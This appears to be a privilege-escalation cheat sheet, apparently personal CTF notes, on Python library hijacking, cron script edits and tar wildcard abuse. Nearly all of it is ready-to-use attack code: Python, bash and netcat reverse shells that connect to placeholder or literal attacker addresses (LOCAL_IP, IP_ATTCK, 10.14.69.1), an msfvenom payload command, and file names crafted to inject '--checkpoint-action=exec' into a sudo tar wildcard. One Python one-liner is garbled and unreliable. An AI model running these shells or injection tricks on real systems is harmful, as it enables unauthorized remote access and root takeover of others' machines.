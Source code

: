 ## Python Library Hijack

- base64

````python
#!/usr/bin/python3  
from os import dup2  
from subprocess import run  
import socket  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("LOCAL_IP",1234))   
dup2(s.fileno(),0)   
dup2(s.fileno(),1)   
dup2(s.fileno(),2)   
run(["/bin/bash","-i"])
````

---

- OS

```python
import os

def choice(a):

	os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ATTCK PORT>/tmp/f")
```

---

- Edit an script running in a crontab:

```bash
#!/bin/bash
bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1
```

---

- How to stabilise a shell:
````shell
python -c "import pty; pty.spawn('/bin/bash')" 
python3 -c "import pty; pty.spawn('/bin/bash')" 
````

---

- Python

```python
...#whatever it does before
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,s.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]));'

# other option
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_HOST PORT >/tmp/f" > twasBrillig.sh
```

---

- If you see that running `sudo -l` someone is using a wildcard like:

![](./img/Pasted%20image%2020240210151540.png)

- Run the following:

```shell
msfvenom -p cmd/unix/reverse_netcat lhost=IP_ATTCK lport=PORT R
```

- Which gives us the exploit:

```shell
mkfifo /tmp/fmkltf; nc 10.14.69.1 1234 0</tmp/fmkltf | /bin/sh >/tmp/fmkltf 2>&1; rm /tmp/fmkltf
```

- Steps:
	1. Copy the reverse shell on the remote host
	2. Run the action when the checkpoint is reached: `echo "" > "--checkpoint-action=exec=sh shell.sh"`
	3. Show progress message every record: `echo "" > --checkpoint=1`
	4. Set up a listener on your local machine

---